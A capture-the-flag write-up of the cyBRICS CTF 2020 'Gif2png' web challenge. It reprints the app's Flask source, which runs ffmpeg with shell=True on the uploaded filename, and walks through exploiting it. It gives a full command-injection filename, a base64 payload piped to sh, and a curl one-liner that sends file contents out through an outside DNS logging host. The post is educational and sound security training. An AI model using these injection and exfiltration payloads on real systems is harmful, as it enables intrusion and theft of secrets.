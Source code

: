 ```yaml
---
layout: post
title: "cyBRICS CTF 2020 - Gif2png"
description: "Resolution of the cyBRICS CTF challenge named Gif2png"
thumb_image: "ctf/cybrics/2020/gif2png/gif2png-00.jpg"
tags: [ctf,web,cybricsctf]
---
```


<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-00-0ede9e305950712e679e89bb1e99939bceb88e58ae733ccf1047f6dba0e458fb.jpg">

Gif2Png is an easy web challenge from `cyBRICS CTF 2020`, an interesting web challenge that teaches you `command injection` through image's filename.

The challenge had the following description/details: 

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-01-19a95b1d764ce4a33d90e54c311910ba49d3443274d8c46e9a2048f20a87b2fc.png">

A copy of the original web application's source code is available on: [gif2png.tar.gz](https://mega.nz/file/oMJnVAbR#qkUfgCsgjhkueLh9dOeKc_7Pm1BXzwacspLZxjvLB5Q)

The challenge web page:

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-02-bca1ccb08ee990ca148bb270822bcfd4eb521cf5b3954a923b153bb83e05be4c.png">

It seems that the web application slices the gif into frames and display them on the screen:

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-03-f19871cac5a882c348b311abdaaa4f860eb0fb5fc2fd43149313ba7c4d3ea066.png">

So now let's check the source code of the web application to understand how it is done.

This is the source code of the main file, named `main.py`:

```python
import logging
import re
import subprocess
import uuid
from pathlib import Path

from flask import Flask, render_template, request, redirect, url_for, flash, send_from_directory
from flask_bootstrap import Bootstrap
import os
from werkzeug.utils import secure_filename
import filetype


ALLOWED_EXTENSIONS = {'gif'}

app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = './uploads'
app.config['SECRET_KEY'] = '********************************'
app.config['MAX_CONTENT_LENGTH'] = 500 * 1024  # 500Kb
ffLaG = "cybrics{********************************}"
Bootstrap(app)
logging.getLogger().setLevel(logging.DEBUG)

def allowed_file(filename):
    return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    logging.debug(request.headers)
    if request.method == 'POST':
        if 'file' not in request.files:
            logging.debug('No file part')
            flash('No file part', 'danger')
            return redirect(request.url)

        file = request.files['file']
        if file.filename == '':
            logging.debug('No selected file')
            flash('No selected file', 'danger')
            return redirect(request.url)

        if not allowed_file(file.filename):
            logging.debug(f'Invalid file extension of file: {file.filename}')
            flash('Invalid file extension', 'danger')
            return redirect(request.url)

        if file.content_type != "image/gif":
            logging.debug(f'Invalid Content type: {file.content_type}')
            flash('Content type is not "image/gif"', 'danger')
            return redirect(request.url)

        if not bool(re.match("^[a-zA-Z0-9_\-. '\"\=\$\(\)\|]*$", file.filename)) or ".." in file.filename:
            logging.debug(f'Invalid symbols in filename: {file.content_type}')
            flash('Invalid filename', 'danger')
            return redirect(request.url)

        if file and allowed_file(file.filename):
            filename = secure_filename(file.filename)
            file.save(os.path.join(app.config['UPLOAD_FOLDER'], file.filename))

            mime_type = filetype.guess_mime(f'uploads/{file.filename}')
            if mime_type != "image/gif":
                logging.debug(f'Invalid Mime type: {mime_type}')
                flash('Mime type is not "image/gif"', 'danger')
                return redirect(request.url)

            uid = str(uuid.uuid4())
            os.mkdir(f"uploads/{uid}")

            logging.debug(f"Created: {uid}. Command: ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"")

            command = subprocess.Popen(f"ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"", shell=True)
            command.wait(timeout=15)
            logging.debug(command.stdout)

            flash('Successfully saved', 'success')
            return redirect(url_for('result', uid=uid))

    return render_template("form.html")


@app.route('/result/<uid>/')
def result(uid):
    images = []
    for image in os.listdir(f"uploads/{uid}"):
        mime_type = filetype.guess(str(Path("uploads") / uid / image))
        if image.endswith(".png") and mime_type is not None and mime_type.EXTENSION == "png":
            images.append(image)

    return render_template("result.html", uid=uid, images=images)


@app.route('/uploads/<uid>/<image>')
def image(uid, image):
    logging.debug(request.headers)
    dir = str(Path(app.config['UPLOAD_FOLDER']) / uid)
    return send_from_directory(dir, image)


@app.errorhandler(413)
def request_entity_too_large(error):
    return "File is too large", 413


if __name__ == "__main__":
    app.run(host='localhost', port=5000, debug=True, threaded=True)
{% endhighlight %}
```

What caught my attention was the line 104:

```python
command = subprocess.Popen(f"ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"", shell=True)
```

This can be very insecure because the web application is passing an user input to be executed as system command. (`file.filename`)

There's a small condition that checks for some characters on filename and blocks the upload:

```python
if not bool(re.match("^[a-zA-Z0-9_\-. '\"\=\$\(\)\|]*$", file.filename)) or ".." in file.filename:
  logging.debug(f'Invalid symbols in filename: {file.content_type}')
  flash('Invalid filename', 'danger')
  return redirect(request.url)
```

So now we need to exploit this weak point.

The very first thing we need to do is stop the actual ffmpeg command and execute another one, to do this we need to escape the `'` quotes and append another command.

I found a way to bypass the filename verification using double pipelines to execute my system command, the malicious filename will look something like this:

> `MALICIOUS_NAME'||MALICIOUS SYTEM COMMAND HERE||'`

```shell
ffmpeg -i 'uploads/MALICIOUS_NAME'||MALICIOUS SYTEM COMMAND HERE||' "uploads/{uid}/%03d.png\"
```

There's a final problem: how to inject system commands through filename and bypass the filename check? `Encoding the payload with base64, decoding and executing on the fly!`

> `echo d2hvYW1pO2lkO3NsZWVwIDEw|base64 -d|sh`

Unfortunatelly, the challenge server had a firewall blocking reverse shells and requests to the external resources through port 80.
So I came with the idea of exfiltrating the flag (inside the main.py) through DNS using `dnsbin.zhack.ca`:

> `flag=$(cat main.py|grep -wo cybrics{.*|base64|tr -d '=');curl $flag.a0325542a59398d0bda8.d.zhack.ca`

The flag is extracted from the main.py and sent through DNS using DNSBin, all we need to do is encode the above command as base64 and rename the file:

The encoded payload:

> `ZmxhZz0kKGNhdCBtYWluLnB5fGdyZXAgLXdvIGN5YnJpY3N7Lip8YmFzZTY0fHRyIC1kICc9Jyk7Y3VybCAkZmxhZy5iNDQ1YzMwODAxYTg4OTRhMzc0Ny5kLnpoYWNrLmNh`

The 2nd part:

> `echo ZmxhZz0kKGNhdCBtYWluLnB5fGdyZXAgLXdvIGN5YnJpY3N7Lip8YmFzZTY0fHRyIC1kICc9Jyk7Y3VybCAkZmxhZy5iNDQ1YzMwODAxYTg4OTRhMzc0Ny5kLnpoYWNrLmNh|base64 -d|sh`

The final filename:

> `nullarmor'||echo ZmxhZz0kKGNhdCBtYWluLnB5fGdyZXAgLXdvIGN5YnJpY3N7Lip8YmFzZTY0fHRyIC1kICc9Jyk7Y3VybCAkZmxhZy5iNDQ1YzMwODAxYTg4OTRhMzc0Ny5kLnpoYWNrLmNh|base64 -d|sh||'.gif`

Now we just renamed a gif file with the malicious filename and uploaded it on the Gif2png web application!

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-04-bab35abb8f097541da9a97cabfe9d2c07e8434155e5fe0063f2e406835b4ff16.png">

Done, after 5 seconds the base64 encoded flag will be sent through DNS!

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-04-bab35abb8f097541da9a97cabfe9d2c07e8434155e5fe0063f2e406835b4ff16.png">

Flag:
> cybrics{imagesaresocoolicandrawonthem}

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-06-0069647c11ff4ae14468d1673853c5adb6549af2350dfe82528b25e98fea8f07.png">
